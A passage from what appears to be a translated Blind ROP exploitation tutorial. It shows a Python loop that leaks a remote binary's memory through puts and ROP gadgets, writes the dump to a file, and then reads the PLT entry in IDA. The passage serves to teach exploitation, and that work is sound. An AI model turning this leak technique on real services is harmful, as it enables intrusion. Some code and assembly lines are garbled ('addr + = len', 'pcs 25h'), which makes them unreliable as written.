 ```python
    print hex(addr)

    data = leak(length, rdi_ret, puts_plt, addr, stop_gadget)

    if data is None:

        continue

    else:

        result += data

addr + = len (data)
with open('code', 'wb') as f:

    f.write(result)

```



Finally, we write the leaked content to a file. It should be noted that if the leak is &quot;&quot;, then we have encountered &#39;\x00&#39;, because puts is the output string, the string is terminated with &#39;\x00&#39;. Then use ida to open the binary mode, first change the base address of the program to 0x400000 in edit-&gt;segments-&gt;rebase program, and then find the offset 0x560, as follows


```asm
seg000: 0000000000400560 db 0FFh
seg000: 0000000000400561 pcs 25h; %
seg000: 0000000000400562 db 0B2h;
seg000: 0000000000400563 db 0Ah
seg000:0000000000400564                 db  20h

seg000: 0000000000400565 db 0
```



Then press c to convert the data here into assembly instructions as follows


```asm
seg000: 0000000000400560; -------------------------------------------------- -------------------------
seg000: 0000000000400560 jmp qword for cs: 601018h
seg000: 0000000000400566; -------------------------------------------------- -------------------------
seg000:0000000000400566                 push    0

seg000:000000000040056B                 jmp     loc_400550

seg000:000000000040056B ; ---------------------------------------------------------------------------

```
